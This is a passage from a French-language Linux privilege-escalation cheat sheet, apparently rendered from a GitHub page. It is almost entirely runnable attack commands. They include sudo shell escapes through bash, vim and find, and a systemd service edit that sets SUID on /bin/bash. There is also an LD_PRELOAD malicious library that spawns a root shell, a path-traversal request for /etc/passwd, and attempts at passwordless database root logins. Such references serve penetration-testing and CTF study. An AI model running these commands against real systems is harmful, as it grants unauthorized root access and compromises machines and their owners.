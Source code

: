 ### **2. Abus des permissions sudo**

#### **Exploitation directe**
```bash
# Si sudo -l montre ces permissions :

# (ALL) /bin/bash -> Shell direct
sudo /bin/bash

# (ALL) /usr/bin/vim -> Éditeur
sudo vim
:!/bin/sh

# (ALL) /usr/bin/find -> Exécution
sudo find . -exec /bin/sh \; -quit
```

#### **Exploitation indirecte**
```bash
# Si sudo systemctl restart service
# Modifier le service pour exécuter notre code
sudo vim /etc/systemd/system/service.service
# Ajouter : ExecStart=/bin/bash -c 'chmod +s /bin/bash'
sudo systemctl daemon-reload
sudo systemctl restart service
```

#### **Variable d'environnement LD_PRELOAD**
```bash
# Si sudo_mode préserve LD_PRELOAD
# Créer une librairie malveillante
echo 'void _init() { setuid(0); system("/bin/bash"); }' > /tmp/evil.c
gcc -fPIC -shared -o /tmp/evil.so /tmp/evil.c -nostartfiles

# Exécuter avec LD_PRELOAD
sudo LD_PRELOAD=/tmp/evil.so [commande-autorisée]
```

### **3. Services vulnérables locaux**

#### **Services web internes**
```bash
# Identifier services web locaux
netstat -tulpn | grep ":80\|:8080\|:3000\|:8000"

# Tester pour vulnérabilités
curl http://127.0.0.1:8080/
curl http://127.0.0.1:8080/admin
curl http://127.0.0.1:8080/../../../etc/passwd
```

#### **Bases de données locales**
```bash
# MySQL/MariaDB local
mysql -u root -p
mysql -u root # (sans mot de passe)

# PostgreSQL local
psql -h localhost -U postgres

# Exploitation UDF (User Defined Functions)
# Si accès MySQL en root -> escalade système
```
